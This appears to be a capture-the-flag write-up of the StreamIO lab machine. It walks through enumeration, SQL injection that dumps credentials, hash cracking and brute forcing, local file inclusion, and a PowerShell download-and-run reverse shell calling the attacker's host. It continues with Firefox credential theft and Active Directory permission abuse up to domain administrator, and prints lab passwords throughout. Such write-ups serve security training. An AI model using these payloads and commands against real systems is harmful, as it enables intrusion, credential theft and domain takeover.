

# Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-20 23:19:27Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-03-20T23:20:15+00:00; -17h02m32s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49667/tcp open  msrpc      Microsoft Windows RPC
49673/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc      Microsoft Windows RPC
49736/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-20T23:19:36
|_  start_date: N/A
|_clock-skew: mean: -17h02m32s, deviation: 0s, median: -17h02m32s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

- Active directory
Trying to access the page and it doesn't load on http.
So trying https  https://watch.streamio.htb/

Also https://streamio.htb

Now using feroxbuster on both websites wit:
`feroxbuster -u https://streamio.htb -x php -o stream.htb.feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k`

We discover https://watch.streamio.htb/search.php
Intercepting in burp suite.
We notice a POST field called q.

Now trying to fuzz it with FUFF for special characters.
Since it is a POST request need to set a header for content type.
```
ffuf -u https://watch.streamio.htb/search.php -d "q=FUZZ" -w /usr/share/seclists/Fuzzing/special-chars.txt -H 'Content-Type: application/x-www-form-urlencoded' -k
```
Now filtering lines we get:

Trying all these on browser we notice something unusual
Since ffuf sends all requests without url encoding the `&` response is pretty weird.

It seems there is a wildcard on both sides of the search request.
Might be like:
`select * from movies where title like '%[input]%';
or 
`select * from movies where CONTAINS (name, '*500*')l;`

To check:

We get the same result with `500%-- -` so it is the first type of `select * from movies where title like '%[input]%;`
Now to check how many columns we can use union.

There are 6 columns
Enumerating we find users:

We can use concat to concatenate multiple columns together:

Kerberoasting to find valid users:

Testing xp_dirtrees
We get a response so yeah it works.
Now using responder to get the hash:
xp_cmdshell doesn't work
Checking with `500' EXEC xp_cmdshell 'ping 10.10.14.8';-- -`
and `sudo tcpdump -i tun0 icmp`
But it doesn't work

Now getting the username and password:
`500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from users--`
And using hashcat:
`hashcat --user username_password.txt '/home/aditya/Documents/Kali/rockyou.txt'`
We get the passwords:
Now trying this login in https://streamio.htb/login.php
Now trying hydra for the bruteforcing
`hydra -C creds.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed" `

Now we can access admin panel
Trying to fuzz the parameters:

And remember we have the cookie
So using ` ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'https://streamio.htb/admin/?FUZZ=id' -H 'Cookie: PHPSESSID=cmedn0pjk13elk0051taff4v8a' -fw 85`
We found the debug parameter
Now trying index.php:

We get an error. Now trying LFI
`https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php`
We get the base64 encoded file.
index.php
debug parameter includes any php file that is passed in.
master.php

In master.php if we have a post parameter called include we can execute the php content.

We can't directly execute code as it reads the content of the file passed through include parameter.

Now we can check if we can access the files through over python server

Now we have code execution
So using the conptyshell and using system command to execute it
`system("powershell IEX(IWR http://10.10.14.37/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.37 9001");`

We get a shell:


Since we had the password of db_admin from the index.php file we can use it here:
To access the sql database:
`sqlcmd -U db_admin -P 'B1@hx31234567890'`

Now we found a password for an account that is on the pc.
`nikk37:get_dem_girls2@yahoo.com`

Logging in using evil-winrm and running winPeas

We find a firefox db.

Downloading it:

`download br53rxeg.default-release`

Now using firepwd and copying logins.json and key4.db to the firepwd folder we get the passwords:
Now adding it to our creds and using crackmapexec to try all passwords:
`cme smb streamio.htb -u users.txt -p pass.txt --no-bruteforce --continue-on-success`

We notice that the admin has the name JDgodd in their password which is also a username so trying it we get access:

Running bloodhound.py 
`python3 bloodhound.py -d streamio.htb -u nikk37 -p get_dem_girls2@yahoo.com -dc dc.streamio.htb -ns 10.10.11.158 --dns-tcp -c all --zip`

Now we find a path in bloodhound
Now using owneredit:
`/owneredit.py -action write -new-owner 'JDgodd' -target 'CORE STAFF' 'streamio.htb'/'JDgodd':'JDg0dd1s@d0p3cr3@t0r'`
dacledit
`dacledit.py  -dc-ip 10.10.11.158 -principal JDgodd -target "CORE STAFF" -action write -rights FullControl streamio.htb/JDgodd`
adding member
`net rpc group addmem "CORE STAFF" "JDgodd" -U "streamio.htb"/"JDgodd"%"JDg0dd1s@d0p3cr3@t0r" -S dc.streamio.htb`
Getting LAPS password:
`./pyLAPS.py --action get -d streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r`

After getting the DC password we can get a winrm shell
`evil-winrm -i 10.10.11.158 -u administrator -p ClonWLdA]cK7u9`
